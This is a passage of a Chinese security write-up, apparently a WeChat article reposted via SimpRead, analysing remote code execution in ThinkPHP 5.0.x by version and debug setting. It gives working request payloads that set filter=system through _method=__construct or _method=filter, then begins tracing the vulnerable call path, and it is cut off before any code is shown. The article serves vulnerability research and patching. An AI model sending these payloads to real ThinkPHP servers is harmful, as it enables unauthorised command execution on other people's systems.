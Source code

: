 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/r64K2DjQJ0GfQY9sR5De0g)

**STATEMENT**

**声明**

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，雷神众测及文章作者不为此承担任何责任。

雷神众测拥有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经雷神众测允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

安恒西安运营中心

**NO.1 总述**

在版本小于 5.0.13，不开启 debug 的情况下 会通过变量覆盖修改 $request 类的变量的值通过 bindParams 中的 param 函数进行任意函数调用  
_method=__construct&method=get&filter=system&s=whoami

  
在版本小于 5.0.13，开启 debug 的情况下会执行命令两次 一次在 bindParams 的 param 一次在 run() 中的 param 函数  
_method=__construct&method=get&filter=system&s=whoami

  
在版本大于 5.0.13 小于 5.0.21 情况下，开启 debug 的情况下，在 run() 中的 param 函数执行命令  
_method=__construct&method=get&filter=system&s=whoami

  
在版本大于 5.0.13 小于 5.0.21 情况下，不开启 debug 的下需要完整版 thinkphp，在 method 分支下 param 函数 rce  
POST /index.php?s=captcha  
_method=__construct&method=get&filter=system&s=whoami

  
在大于 5.0.21 小于等于 5.0.23 的情况下，由于修改了 method 函数的逻辑，无法随意用变量，这里统一用只能用 get[],route[]。  
完整版 ThinkPHP 如下  
POST /index.php?s=captcha  
_method=__construct&method=get&filter=system&get[]=whoami  
_method=__construct&method=get&filter=system&route[]=whoami  
开启 debug 如下  
_method=construct&method=get&filter=system&route[]=whoami

  
在 5.0.24 的时候由于限制了表单请求伪装传入的参数，传入的参数只能为限定的参数，无法进行 request 类下任意函数调用

**NO.2 POC1**

ThinkPHP<=5.0.23 需要开启 debug  
a=system&b=whoami&_method=filter

**漏洞定位**

通过 debug 发现是在第 127 行调用了 $request->param() 函数之后导致了 rce，那跟进一下该函数，发现是在该函数里面调用了 input 函数，而 input 函数里存在一个 filterValue 函数，该函数里调用了 call_user_func 函数从而导致任意 php 代码执行。(后面发现是存在 array_walk_recursive 函数，通过隐式调用 filterValue 造成了 RCE)(由于该处代码是开启了 debug 之后才会调用的代码，所以此处略鸡肋，需要开启 debug)

**漏洞分析**

那么此时这里是调用了 $request 变量，这个变量是一个 Request 对象的实例，那么看一下这个实例是在哪里构建的，通过之前的路由流程分析可以知道在调用了 routeCheck 之后，$request 变量里面便有了数据，跟进该函数，通过之前的路由流程分析可以得知，在 routeCheck 函数的第 618 行数获取路径信息，第 619-640 行都是在获取默认配置，到第 642 行这里调用了 Route::check 函数，根据之前的分析可知，在该 check 函数的第 848 行，调用了 $request->method 函数，在里面根据请求模式进行了赋值，这里 debug 断点看一下。

先贴代码
